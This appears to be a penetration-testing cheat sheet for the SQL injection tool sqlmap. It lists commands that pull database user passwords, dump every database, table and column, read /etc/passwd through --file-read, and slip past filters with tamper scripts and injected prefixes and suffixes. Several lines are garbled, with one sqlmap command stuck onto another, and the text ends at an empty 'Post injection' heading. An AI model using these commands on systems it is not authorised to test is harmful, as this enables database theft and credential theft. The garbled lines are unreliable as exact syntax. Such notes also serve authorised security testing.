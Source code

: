 ### Get passwords of users in DB

    sqlmap -u <url> --passwords

### Get privileges

    sqlmap -u <url> --privileges

### Retrieve everything

    sqlmap -u <url> --all

### Dump DBMS database table entries

    sqlmap -u <url> --dump

### Names of the available databases

    sqlmap -u <url> --dbs

### Tables of a database ( -D <DB NAME> )

    sqlmap -u <url> --tables

### Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )

    sqlmap -u <url> --columns

### Dump column

    sqlmap -u <url> -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME>

    sqlmap -u <url> sqlmap  -u "http://example.com" --cookie "mycookies=*"

    sqlmap -u <url> --string="string_showed_when_TRUE"

    sqlmap -u <url> --file-read=/etc/passwd

    sqlmap -u <url> --batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers

    sqlmap -u <url> --crawl = how deep you want to crawl a site

    sqlmap -u <url> --forms = Parse and test forms

    sqlmap -u <url> python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "

    sqlmap -u <url> python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "

    sqlmap -u <url> --tamper=name_of_the_tamper


### Get Injection Request

    sqlmap -u "http://example.com/?id=*" -p id

### Post injection
